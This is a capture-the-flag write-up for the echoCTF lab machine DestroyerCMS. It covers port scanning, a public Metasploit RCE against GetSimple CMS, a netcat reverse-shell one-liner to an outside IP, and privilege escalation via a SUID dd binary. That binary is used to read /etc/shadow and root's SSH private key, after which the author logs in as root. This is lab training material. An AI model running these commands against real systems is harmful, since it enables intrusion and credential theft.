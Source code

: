```yaml
---
description: >-
  DestroyerCMS echoCTF Machine
title: DestroyerCMS (Intermediate)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [GetSimple CMS, SUID Privilege Escalation]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Destroyercms.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.222    destroyercms.echocity-f.com
```

### Content

-   GetSimpleCMS RCE exploit
-   SUID privilege escalation

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:31:07 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.222
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.222 ()   Status: Up
Host: 10.0.160.222 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Jan 23 23:34:40 2025 -- 1 IP address (1 host up) scanned in 212.81 seconds
```

Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:36:49 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.222
Nmap scan report for 10.0.160.222
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-23 23:36:50 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 59:f2:44:81:7e:39:44:a2:74:78:01:f4:41:9d:3c:32 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHrsjVfK8kJ4w0XD3dHLYJmvvzVETjkYlbeoYVFk8aHpq9fngAgZvUDDnDekezCzkEP0yYOq4NIP1/mGsLFQ/G4=
|   256 41:6c:06:38:b6:c4:81:32:3a:da:93:34:8e:5e:52:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcNlnBiNe1SHe160w0K6u9YfowdzTrYEeVIYZHKyZ+7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to GetSimple! - simple
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

Checking service HTTP on port 80 I discovered that there is a page that is not shown correctly, so I hover my mouse on top of the "Home" hyperlink to check if there is a host that is not being recognized: 
![](/assets/img/Pasted-image-20250123223859.png)

So, let's add it to the hosts file:
```bash
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.222    destroyercms.echocity-f.com
```

Finally, I can see the full page with all the visual content:
![](/assets/img/Pasted-image-20250123224310.png)

Searching for this GetSimple CMS I found a public [RCE exploit](https://www.exploit-db.com/exploits/51475) that is easily exploited via metasploit:

![](/assets/img/Pasted-image-20250123224647.png)

After setting all the details, a meterpreter session is opened:

![](/assets/img/Pasted-image-20250123224824.png)

Note.- It is possible to start a normal shell with command `shell` in meterpreter and using `nc`

```bash
meterpreter > shell
Process 183 created.
Channel 0 created.

nc -c bash 10.10.5.122 2345
```

### Privilege Escalation

By looking for SUID binaries we identify that there is a SUID binary `dd` that has special privilege flag:
```bash
www-data@destroyercms:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/bin/su
/bin/umount
/bin/dd
/bin/mount
```

This binary has an special entry in [GTFObin](https://gtfobins.github.io/gtfobins/dd/) which allows an user to read and write files:

![](/assets/img/Pasted-image-20250123231808.png)

I then proceed to read the `/etc/shadow` file to verify if this is correct, and surprise I can read the file:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/etc/shadow
root:*:19458:0:99999:7:::
daemon:*:19458:0:99999:7:::
bin:*:19458:0:99999:7:::
sys:*:19458:0:99999:7:::
sync:*:19458:0:99999:7:::
games:*:19458:0:99999:7:::
man:*:19458:0:99999:7:::
lp:*:19458:0:99999:7:::
mail:*:19458:0:99999:7:::
news:*:19458:0:99999:7:::
uucp:*:19458:0:99999:7:::
proxy:*:19458:0:99999:7:::
www-data:*:19458:0:99999:7:::
backup:*:19458:0:99999:7:::
list:*:19458:0:99999:7:::
irc:*:19458:0:99999:7:::
gnats:*:19458:0:99999:7:::
nobody:*:19458:0:99999:7:::
_apt:*:19458:0:99999:7:::
mysql:!:19965:0:99999:7:::
sshd:*:19965:0:99999:7:::
ETSCTF:ETSCTF_<REDACTED>:19965:0:99999:7:::
```

This means that we can read files within /root directory, such as `/root/.ssh/id_rsa`:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<REDACTED>
```

Then we can save this id_rsa private key to access via ssh (don't forget chmod 600):
```bash
└─$ ssh -i id_rsa root@10.0.160.222  
The authenticity of host '10.0.160.222 (10.0.160.222)' can't be established.
ED25519 key fingerprint is SHA256:qPvHgmIzb2YH68N6uMkwoHTkCXjfKLqBYeuEnUc5FZo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
root@destroyercms:~#
```

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables`
`/root`

### Credentials
Find id_rsa for user root using dd binary with SUID

### Notes

-   Always look for public exploits on CMS specially those that are verified and have metasploit PoC
-   Look for SUID binaries, privilege escalation simple commands are key (if not, use linpeas.sh)

### References

- [GetSimple CMS RCE exploit](https://www.exploit-db.com/exploits/51475)
- [GTFObin dd binary](https://gtfobins.github.io/gtfobins/dd/)
